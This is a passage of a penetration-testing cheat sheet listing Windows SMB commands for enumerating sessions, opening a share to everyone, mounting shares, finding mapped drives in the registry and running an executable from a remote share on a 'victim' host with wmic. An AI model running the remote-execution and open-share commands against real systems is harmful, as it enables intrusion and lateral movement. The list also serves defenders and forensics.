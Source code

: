 https://nmap.org/book/man-examples.html
https://highon.coffee/blog/nmap-cheat-sheet/
https://www.cyberciti.biz/networking/nmap-command-examples-tutorials/
__________
### 16. active sessions
```
net session
```
**- enumeration,smb,Windows**
#### References:

https://technet.microsoft.com/en-us/library/bb490949.aspx
https://technet.microsoft.com/en-us/library/bb490712.aspx
__________
### 17. Share a directory with the world, probably don't want the world
```
net share [sharename] [folder] /GRANT:Everyone,FULL
```
**- files,smb,Windows**
#### References:

https://technet.microsoft.com/en-us/library/bb490949.aspx
https://technet.microsoft.com/en-us/library/bb490712.aspx
__________
### 18. execute command on remote host from remote smb share
```
wmic /node:[victim] /user:[domain]\[user] /password:[password] process call create "\\[host]\[share]\[exe]"
```
**- smb,Windows,remote command shell**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
__________
### 19. powershell mount remote share : think sysinternals remote share
```
New-PSDrive -Persist -PSProvider FileSjstem -Root \\[ip]\tools -Name i
```
**- files,smb,Windows,powershell**
#### References:

https://msdn.microsoft.com/en-us/powershell/reference/5.1/microsoft.powershell.management/new-psdrive
__________
### 20. Mapped drives in reg
```
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Map Network Drive MRU
```
**- enumeration,smb,Windows,forensics**
#### References:

